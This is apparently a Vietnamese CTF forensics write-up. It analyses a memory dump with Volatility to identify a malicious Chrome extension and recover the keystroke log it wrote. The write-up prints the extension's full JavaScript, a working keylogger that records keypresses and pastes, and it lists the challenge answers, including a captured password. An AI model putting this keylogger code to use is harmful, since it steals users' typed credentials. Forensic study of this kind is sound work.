







# _Stealth Invasion_ _(FORSENSICS)_


Bài cho file memdump.elf, lần đầu mình gặp file dump mà đuôi là elf nên liền check file cái đã



Vẫn đúng là file dump bth thôi, giờ dùng volatility để phân tích

>1. What is the PID of the Original (First) Google Chrome process:

Câu này dùng plugin windows.pslist



```
Answer: 4080
```

>2. What is the only Folder on the Desktop

Câu này dùng windows.filescan | grep desktop



```
Answer: malext
```

> 3. What is the Extention's ID (ex: hlkenndednhfkekhgcdicdfddnkalmdm)

Thấy trên `desktop` có được 1 số file `.js`, dump thử về xem sao (vì mình `grep` ID mãi mà nhập vô không đúng)

File `background.js`

```js
function addLog(s) {
    
    if (s.length != 1 && s !== "Enter" && !s.startsWith("PASTE"))  {
        s = `|${s}|`;
    } else if (s === "Enter" || s.startsWith("PASTE")) {
        s = s + "\r\n";
    }

    chrome.storage.local.get(["log"]).then((data) => {
        if (!data.log) {
            data.log = "";
        }

        data.log += s;

        chrome.storage.local.set({ 'log': data.log });
    });
}


chrome.runtime.onConnect.addListener((port) => {

    console.assert(port.name === "conn");
    console.log("v1.2.1");

    port.onMessage.addListener( ({ type, data }) => {
        if (type === 'key') {
            addLog(data);
        } else if (type == 'paste') {
            addLog('PASTE:' + data);
        }
    });
});

chrome.runtime.onMessage.addListener(
    function(request, sender, sendResponse) {
        if (request.check === "replace_html" && chrome.storage.local.get("replace_html")) {
            sendResponse({ url: chrome.storage.local.get('replace_html_url')});
        }
    }
);
```
File `content-script.js`

```js
var conn = chrome.runtime.connect({ name: "conn" });

chrome.runtime.sendMessage('update');

(async () => {
    const response = await chrome.runtime.sendMessage({ check: "replace_html" });
    console.log(response)
})();

chrome.runtime.sendMessage('replace_html', (response) => {
    conn.postMessage({ "type": "check", "data": "replace_html" });
});

document.addEventListener("keydown", (event) => {
    const key = event.key;
    conn.postMessage({ "type": "key", "data": key });
    return true;
});


document.addEventListener("paste", (event) => {
    let paste = event.clipboardData.getData("text/plain");
    conn.postMessage({ "type": "paste", "data": paste });
    return true;
});
```
Script trên là một phần của `Chrome Extensions`, nó như một `Keylogger` dùng để lưu lại lịch sử nhấn phím của người dùng. Hỏi chatgpt thì mình có được vị trí lưu






```
Answer: nnjofihdjilebhiiemfmdlpbdkbjcpae
```

>4. After examining the malicious extention's code, what is the log filename in which the datais stored

Ngay hình trên lấy được 1 tệp `.log`

```
Answer: 000003.log
```
>5. What is the URL the user navigated to

Mình dumpfiles `000003.log` về, tệp log này ghi lại lịch sử nhấn phím người dùng bởi `malicious extensions` ở trên



Có thể thấy người dùng truy cập vào drive.google.com rồi thực hiện login, nên từ đây có thể lấy được luôn đáp án cho câu 6

```
Answer: drive.google.com
```

>6. What is the password of selene@rangers.eldoria.com



```
Answer: clip-mummify-proofs
```


